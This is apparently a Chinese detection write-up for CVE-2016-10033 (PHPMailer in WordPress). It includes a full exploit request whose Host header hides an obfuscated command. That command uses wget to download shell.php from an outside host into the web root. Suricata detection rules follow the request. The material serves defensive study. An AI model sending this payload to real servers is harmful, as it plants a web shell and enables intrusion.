 # T1190-CVE-2016-10033-PHPMailer<5.2.18远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

影响版本：WordPress <= 4.7.1 PHPMailer < 5.2.18

## 检测日志

HTTP

## 测试复现

具体测试过程请参考：<https://cloud.tencent.com/developer/article/1043654>

```yml
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}shell.php${substr{10}{1}{$tod_log}}www.mzxh.xyz${substr{0}{1}{$spool_directory}}tools${substr{0}{1}{$spool_directory}}shell.php}} null)
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.17.41.103:44397
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.17.41.103:44397/wp-login.php?action=lostpassword
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close

user_login=admin&redirect_to=&wp-submit=Get+New+Password

HTTP/1.1 302 Found
Date: Wed, 05 Aug 2020 07:59:44 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.21
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Set-Cookie: wordpress_test_cookie=WP+Cookie+check; path=/
X-Frame-Options: SAMEORIGIN
Location: wp-login.php?checkemail=confirm
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CVE-2016-10033-rqs";flow:established,to_server;content:"POST";http_method;content:"/wp-login.php?action=lostpassword";http_uri;content:"Get+New+Password";http_client_body;flowbits: set, first_get_rqs; noalert;reference:url,cloud.tencent.com/developer/article/1043654;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2016-10033-PHPMailer<5.2.18远程代码执行漏洞";flow:established;content:"302";http_stat_code;flowbits:isset,first_get_rqs;reference:url,cloud.tencent.com/developer/article/1043654;classtype:web-application-attck;sid:2;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

WordPress 4.6远程代码执行漏洞（CVE-2016-10033）复现环境搭建指南

<https://cloud.tencent.com/developer/article/1043654>

WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)复现分析

<http://www.52bug.cn/hkjs/5133.html>
